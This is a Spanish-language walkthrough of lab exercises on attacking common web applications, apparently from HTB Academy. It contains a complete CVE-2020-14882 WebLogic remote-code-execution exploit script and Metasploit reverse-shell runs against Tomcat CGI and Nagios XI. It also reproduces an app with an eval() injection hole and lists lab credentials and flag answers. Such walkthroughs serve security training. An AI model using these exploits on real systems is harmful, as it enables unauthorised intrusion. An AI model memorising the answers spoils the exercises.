Por tanto, preparamos lo siguiente, `*` tanto en el **username** como en el **password**

<p align="center"> 

</p>

Conseguiremos loguearnos.

<p align="center"> 

</p>

answer: **w3.css**

### Web Mass Assignment Vulnerabilities

1. **We placed the source code of the application we just covered at /opt/asset-manager/app.py inside this exercise's target, but we changed the crucial parameter's name. SSH into the target, view the source code and enter the parameter name that needs to be manipulated to log in to the Asset Manager web application.**

SSH to with user "<font color="#00b050">root</font>" and password `!x4;EW[ZLwmDx?=w`

```
ssh root@10.129.205.15
cat /opt/asset-manager/app.py
```

Contenido de **app.py**

```python
#!/usr/bin/python
import os
import sqlite3
from flask import Flask,request,session,render_template,redirect

app=Flask(__name__)
app.secret_key=os.urandom(24)

@app.route('/')
def index():
	return render_template('index.html')

@app.route('/login',methods=['GET','POST'])
def login():
	if request.method=='GET':
		return render_template('login.html')
	else:
		username=request.form['username']
		password=request.form['password']
		with sqlite3.connect("database.db") as con:
			cur = con.cursor()
			for i,j,k in cur.execute('select * from users where username=? and password=?',(username,password)):
				if k:
					session['user']=i
					return redirect("/home",code=302)
				else:
					return render_template('login.html',value='Account is pending for approval')
		return render_template('login.html',value='Invalid Credentials!!')

@app.route('/home',methods=['GET'])
def home():
	if session:
		return render_template('home.html')
	else:
		return redirect('/',code=302)

@app.route('/logout')
def logout():
	session.clear
	return redirect('/',code=302)

@app.route('/register',methods=['GET','POST'])
def register():
	if request.method=='GET':
		return render_template('index.html')
	else:
		username=request.form['username']
		password=request.form['password']
		try:
			if request.form['active']:
				cond=True
		except:
				cond=False
		with sqlite3.connect("database.db") as con:
			cur = con.cursor()
			cur.execute('select * from users where username=?',(username,))
			if cur.fetchone():
				return render_template('index.html',value='User exists!!')
			else:
				cur.execute('insert into users values(?,?,?)',(username,password,cond))
				con.commit()
				return render_template('index.html',value='Success!!')

@app.route('/profit',methods=['GET','POST'])
def profit():
	if session:
		if request.method=='GET':
			return render_template('profit.html')
		else:
			expr=request.form['sp']
			result=eval(expr)
			return render_template('profit.html',value=result)

	else:
		return redirect('/',code=302)

if __name__=="__main__":
	app.run('0.0.0.0',3000)
```

+ **Vulnerabilidad**: Control de flujo de registro defectuoso debido a la dependencia de un parámetro de inicialización de estado (`active`).
- **Ubicación del código:** `/opt/asset-manager/app.py`
- **Línea crítica:** ```python if request.form['active']:
- **Explicación técnica:** La base de datos de la aplicación almacena un tercer campo booleano que determina si un usuario tiene permitido el acceso al sistema (`if k:`). Al registrar un usuario, este campo se establece como verdadero (`True`) únicamente si la petición HTTP incluye un parámetro llamado exactamente `active`. Si la interfaz web actual tiene un nombre modificado en su código HTML, las cuentas nuevas se crearán por defecto como inactivas (`cond=False`), previniendo el inicio de sesión exitoso. Para solucionar esto o forzar el registro de una cuenta activa, se debe asegurar el envío del parámetro `active` con un valor asignado.

answer: **active**

### Attacking Applications Connecting to Services

1. **What credentials were found for the local database instance while debugging the octopus_checker binary? (Format username:password)**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
ssh htb-student@10.129.205.20
ls
```

<p align="center"> 

</p>

```
file octopus_checker
```

Podemos observar que es un ejecutable basado en ELF. Analizaremos cada apartado:

`octopus_checker: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e5de59f25d629ad8c7139cc1325eec619a7a5d6a, for GNU/Linux 3.2.0, not stripped`

- **ELF 64-bit LSB shared object, x86-64:** Es un programa ejecutable (o una biblioteca) nativo de Linux (`ELF`), diseñado para procesadores modernos de 64 bits (`x86-64`).
- **dynamically linked:** Significa "enlazado dinámicamente". El programa no incluye todo el código que necesita para funcionar; en su lugar, pide prestadas funciones del sistema operativo (como la capacidad de imprimir texto en pantalla) cuando se ejecuta.
- **interpreter /lib64/ld-linux-x86-64.so.2:** Es la herramienta del sistema encargada de cargar este programa en la memoria para que pueda correr.
- **not stripped:** **¡Esto es una gran noticia!** Significa que el programa _no ha sido limpiado_. Conserva los nombres originales de las funciones y variables que escribió el programador. Esto hace que sea muchísimo más fácil de analizar y entender.

Tras saber esto, usaremos una herramienta depuradora (un debugger) que se llama **GDB**

```
gdb ./octopus_checker
```

> Esto significa que estoy "dentro" del depurador. A partir de este momento, **cualquier comando que escribas no se lo estás diciendo a Linux, se lo estás diciendo a GDB** para que controle el programa `octopus_checker`.

<p align="center"> 

</p>

Empezaremos introduciendo este comando:

```
info functions
```

<p align="center"> 

</p>

La dirección `0x0000000000001456` es el lugar exacto en la memoria donde vive la función **`main`**, que es el corazón del programa. Todo empieza **aquí**.

```
disas main
```

GDB nos va a mostrar una lista de instrucciones en lenguaje ensamblador. Nos encontramos con la llamada de la función **SQLDriverConnect**, y su dirección es **0x11b0**

<p align="center"> 

</p>

A continuación, vamos a intentar "congelar" todo el proceso **SQLDriverConnect** y para llevar ese proceso haremos **run**

```
break SQLDriverConnect
run
```

<p align="center"> 

</p>

answer: **SA:N0tS3cr3t!**

### Other Notable Applications

1. **Enumerate the target host and identify the running application. What application is running?**

```
nmap -A 10.129.201.102
```

```bash
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 09-07-20  04:51PM       <DIR>          aspnet_client
| 09-07-20  04:49PM                99710 iisstart.png
|_09-07-20  07:13PM                  218 web.config
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 10.129.201.102 - /
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/https?
|_ssl-date: 2026-06-23T22:53:58+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=MS01
| Not valid before: 2020-09-06T23:51:02
|_Not valid after:  2021-03-08T23:51:02
| tls-alpn: 
|   h2
|_  http/1.1
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7001/tcp open  http          Oracle WebLogic admin httpd 12.2.1.3 (T3 enabled)
|_http-title: Error 404--Not Found
|_weblogic-t3-info: T3 protocol in use (WebLogic version: 12.2.1.3)
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Los servidores que están corriendo son:

1. **Windows Server 2016** (Como sistema operativo).
2. **Oracle WebLogic 12.2.1.3** (Servidor de aplicaciones en el puerto 7001).
3. **Microsoft IIS 10.0** (Servidor web en los puertos 80 y 443).
4. **Microsoft ftpd** (Servidor de archivos en el puerto 21).

answer: **WebLogic**

5. **Enumerate the application for vulnerabilities. Gain remote code execution and submit the contents of the flag.txt file on the administrator desktop.**

```
gobuster dir -u http://10.129.201.102:7001/ -w /usr/share/wordlists/dirb/small.txt
```

<p align="center"> 

</p>

```
http://10.129.201.102:7001/console/login/LoginForm.jsp
```

<p align="center"> 

</p>

Comprobamos que en verdad la versión actual de **WebLogic Server** es 12.2.1.3.0. Luego, investigando descubro que esta vulnerabilidad se conoce como **web logic 2020**

```
searchsploit weblogic 2020
```

<p align="center"> 

</p>

```
searchsploit -p java/webapps/49479.py
```

<p align="center"> 

</p>

Descargamos el exploit que se encuentra [aqui](https://www.exploit-db.com/exploits/49479), Luego en este [github](https://github.com/chacka0101/exploits/blob/master/CVE-2020-14882/README.md) explica como llevar acabo el exploit

```python
# Exploit Title: Oracle WebLogic Server 12.2.1.0 - RCE (Unauthenticated)
# Google Dork: inurl:"/console/login/LoginForm.jsp"
# Date: 01/26/2021
# Exploit Author: CHackA0101
# Vendor Homepage: https://www.oracle.com/security-alerts/cpuoct2020.html
# Version: Oracle WebLogic Server, version 12.2.1.0
# Tested on: Oracle WebLogic Server, version 12.2.1.0 (OS: Linux PDT 2017 x86_64 GNU/Linux)
# Software Link: https://www.oracle.com/middleware/technologies/weblogic-server-downloads.html
# CVE : CVE-2020-14882

# More Info: https://github.com/chacka0101/exploits/blob/master/CVE-2020-14882/README.md

#!/usr/bin/python3

import requests
import argparse
import http.client
http.client.HTTPConnection._http_vsn=10
http.client.HTTPConnection._http_vsn_str='HTTP/1.0'
parse=argparse.ArgumentParser()
parse.add_argument('-u','--url',help='url')
args=parse.parse_args()

proxies={'http':'127.0.0.1:8080'}
cmd_=""

# Headers
headers = {
	"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15;rv:73.0)Gecko/20100101 Firefox/73.0",
	"Accept":"application/json,text/plain,*/*",
	"Accept-Language":"zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding":"gzip,deflate",
	"Upgrade-Insecure-Requests":"1",
	"Content-Type":"application/x-www-form-urlencoded",
	"Cache-Control":"max-age=0",
	"Connection":"close"
}

# Oracle WebLogic Server 12.2.1.0 - Unauthenticated RCE via python Explotation:
url=args.url+"""/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec();");"""
url_=args.url+"/console/images/%252E%252E%252Fconsole.portal"

form_data_="""_nfpb=false&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread=(weblogic.work.ExecuteThread)Thread.currentThread();
weblogic.work.WorkAdapter adapter = executeThread.getCurrentWork();
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj = field.get(adapter);
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);
String cmd = req.getHeader("cmd");
String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe","/c", cmd} : new String[]{"/bin/sh","-c", cmd};
if (cmd != null) {
    String result = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\\A").next();
    weblogic.servlet.internal.ServletResponseImpl res=(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
    res.getServletOutputStream().flush();
    res.getWriter().write("");}executeThread.interrupt();");"""

#data_ = parse.urlencode(form_data_)
results1=requests.get(url,headers=headers)

if results1.status_code==200:
	print("(Load Headers...)\n")
	print("(Data urlencode...)\n")
	print("(Execute exploit...)\n")
	print("(CHackA0101-GNU/Linux)$ Successful Exploitation.\n")
	while True:
		cmd_test = input("(CHackA0101GNU/Linux)$ ")
		if cmd_test=="exit":
			break
		else:
			try:
				cmd_ = cmd_test
				headers = {
					'cmd': cmd_,
					'Content-Type':'application/x-www-form-urlencoded',
					'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36',
					'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
					'Connection':'close',
					'Accept-Encoding':'gzip,deflate',
					'Content-Length':'1244',
					'Content-Type':'application/x-www-form-urlencoded'
				}
				results_ = requests.post(url_, data=form_data_, headers=headers, stream=True).text
				print(results_)
			except:
				pass
else:
	print("(CHackA0101-GNU/Linux)$ Fail.\n")
            
```

Guardamos el archivo como **exploit1.py** y le damos permiso de ejecución. Llevamos la ejecución del exploit con el siguiente comando:

```
python3 exploit1.py -u http://10.129.201.102:7001/console/login/LoginForm.jsp  
```

Luego, con prueba y error, conseguimos este comando para conseguir la **flag.txt**

```
type C:\Users\Administrator\Desktop\flag.txt
```

answer: **w3b_l0gic_RCE!**

## Skill Assessments

### Attacking Common Applications - Skills Assessment I

1. **What vulnerable application is running?**

```
nmap -A 10.129.59.12
```

```bash
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_09-01-21  08:07AM       <DIR>          website_backup
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Freight Logistics, Inc
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-06-24T10:26:31+00:00; +59m59s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: APPS-SKILLS1
|   NetBIOS_Domain_Name: APPS-SKILLS1
|   NetBIOS_Computer_Name: APPS-SKILLS1
|   DNS_Domain_Name: APPS-SKILLS1
|   DNS_Computer_Name: APPS-SKILLS1
|   Product_Version: 10.0.17763
|_  System_Time: 2026-06-24T10:26:23+00:00
| ssl-cert: Subject: commonName=APPS-SKILLS1
| Not valid before: 2026-06-23T10:19:47
|_Not valid after:  2026-12-23T10:19:47
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp open  http          Jetty 9.4.42.v20210604
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.42.v20210604)
8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.0.M1
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019|11|2012|2022|2016|7 (96%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_7::sp1
Aggressive OS guesses: Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows Server 2019 (95%), Microsoft Windows 11 24H2 - 25H2 (92%), Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows 10 1709 - 22H2 (92%), Microsoft Windows 10 1909 (90%), Microsoft Windows Server 2016 (90%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (89%), Microsoft Windows 11 24H2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

La aplicación vulnerable que esta corriendo es **Tomcat**

answer: **Tomcat**

2. **What port is this application running on?**

answer: **8080**

3. **What version of the application is in use?**

```
http://10.129.59.12:8080/
```

<p align="center"> 

</p>

answer: **9.0.0.M1**

4. **Exploit the application to obtain a shell and submit the contents of the flag.txt file on the Administrator desktop.**

> esta actividad hace referencia a un intento de explotación de una vulnerabilidad muy conocida registrada como **CVE-2019-0232**, que permite la Ejecución Remota de Código (RCE).

> Efectivamente, depende tanto del software (Apache Tomcat) como de una versión específica y de ciertas configuraciones muy puntuales que **no vienen activadas por defecto**.

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.61.15:8080/cgi/FUZZ.bat -mc 200
```

<p align="center"> 

</p>

Una vez obtenida la url, tenemos que añadir **?&** para a continuación obtener la **web shell**

```
http://10.129.61.15:8080/cgi/cmd.bat?&dir
```

<p align="center"> 

</p>

```
http://10.129.61.15:8080/cgi/cmd.bat?&dir
```

Por último, para obtener un RCE a partir de esta vulnerabilidad, usaremos un módulo de metasploit.

```
msfconsole -q
use windows/http/tomcat_cgi_cmdlineargs
set RHOSTS 10.129.61.15
set LHOST 10.10.15.61
set TARGETURI /cgi/cmd.bat
set FORCEEXPLOIT true
run
```

<p align="center"> 

</p>

Obtenemos una reverse shell!!

<p align="center"> 

</p>

```
cat /Users/Administrator/Desktop/flag.txt
```

answer: **f55763d31a8f63ec935abd07aee5d3d0**

### Attacking Common Applications - Skills Assessment II

1. **What is the URL of the WordPress instance?**

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.129.201.90/ -H "host: FUZZ.inlanefreight.local" -mc 200 -fs 0 -fl 923
```

<p align="center"> 

</p>

answer: `http://blog.inlanefreight.local/`

2. **What is the name of the public GitLab project?**

`http://10.129.201.90:8180/`

En esta url nos encontraremos la plataforma de GitLab, para acceder a ella necesitamos crearnos una cuenta nueva. Una vez accedido nos iremos **explore public projects**

<p align="center"> 

</p>

Luego os iremos a **all**

<p align="center"> 

</p>

Y obtenemos la respuesta de la pregunta.

<p align="center"> 

</p>

answer: **Virtualhost**

3. **What is the FQDN of the third vhost?**

```
http://10.129.201.90:8180/root/virtualhost/-/commit/bb8b11ca7f3a9cc3a6108be28b7f16234cbad6e5
```

<p align="center"> 

</p>

para poner en funcionamiento la nueva url, lo establecemos en el fichero **/etc/hosts**

<p align="center"> 

</p>

answer: `monitoring.inlanefreight.local`

4. **What application is running on this third vhost? (One word)**

```
http://monitoring.inlanefreight.local/
```

<p align="center"> 

</p>

answer: **nagios**

 5. **What is the admin password to access this application?**

```
http://10.129.201.90:8180/root/nagios-postgresql/-/commit/de9371760b0c1dee32bb04f422c9eda149f2ad79
```

<p align="center"> 

</p>

answer: `oilaKglm7M09@CPL&^lC`

6. **Obtain reverse shell access on the target and submit the contents of the flag.txt file.**

```
http://10.129.201.90:8180/root/nagios-postgresql/-/blob/master/INSTALL
```

<p align="center"> 

</p>

credenciales --> **nagiosadmin**:**oilaKglm7M09@CPL&^lC** de la plataforma **nagios**

```
http://monitoring.inlanefreight.local/
```

<p align="center"> 

</p>

Una vez que sabemos la version del programa, probaremos con metasploit haber s hay alguna vulnerabilidad.

```
msfconsole -q
search Nagios XI 5.7.5
```

<p align="center"> 

</p>

```
use 0
set LHOST 10.10.15.61
set RHOST 10.129.201.90
set PASSWORD oilaKglm7M09@CPL&^lC
run
```

Habrá que intentarlo como una 3 veces para que te de la sesión 

```
find / -name "*flag.txt" 2>/dev/null
```

<p align="center"> 

</p>

### Attacking Common Applications - Skills Assessment III

1. **What is the hardcoded password for the database connection in the MultimasterAPI.dll file?**

RDP to with user "<font color="#00b050">Administrator</font>" and password "<font color="#c00000">xcyj8izxNVzhf4z</font>"

```
xfreerdp /u:Administrator /p:xcyj8izxNVzhf4z /v:10.129.95.200 /size:95% /dynamic-resolution +clipboard
```

Accedemos a **File explorer** - **Quick access** - **webconfig.**

<p align="center"> 

</p>

Intentamos abrir la localización de **web config**. Dentro de la localización buscamos el archivo **MultimasterAPI.dll**

<p align="center"> 

</p>

Luego usaremos la herramienta de ingeniería inversa llamada **dnSpy** y arrastramos el archivo **MultimasterAPI.dll**. Analizando el archivo dentro de ColleagueControler encontraremos la contraseña de la bbdd

<p align="center"> 

</p>

answer: **D3veL0pM3nT!**

